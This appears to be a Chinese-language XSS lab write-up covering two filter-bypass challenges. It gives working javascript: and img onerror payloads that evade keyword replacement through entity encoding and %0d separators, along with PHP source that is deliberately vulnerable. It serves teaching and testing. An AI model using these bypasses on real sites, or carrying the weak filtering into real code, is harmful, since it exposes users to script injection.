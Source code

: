#### filter1:替换关键字以及url检测
思路:html实体编码绕过关键字,使用注释符后加http://绕过校验(或者使用伪协议支持%0d容错性换行解析)
payload1:```javas&#x63ript:alert(1)//http://www.baidu.com```
payload2:```javas&#x63ript:%0dhttp://www.baidu.com%0dalert(1)```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=index.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```
![](https://github.com/Conanjun/xss-vulnhub/blob/master/filters-bypass/filter1/1.png)

#### filte2 替换关键字
思路:过滤了script可以用on事件，过滤了空格可以用%0d%0a绕过
payload:```<img%0Dsrc=1%0Donerror=alert(1)>```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```
![](https://github.com/Conanjun/xss-vulnhub/blob/master/filters-bypass/filter2/1.png)
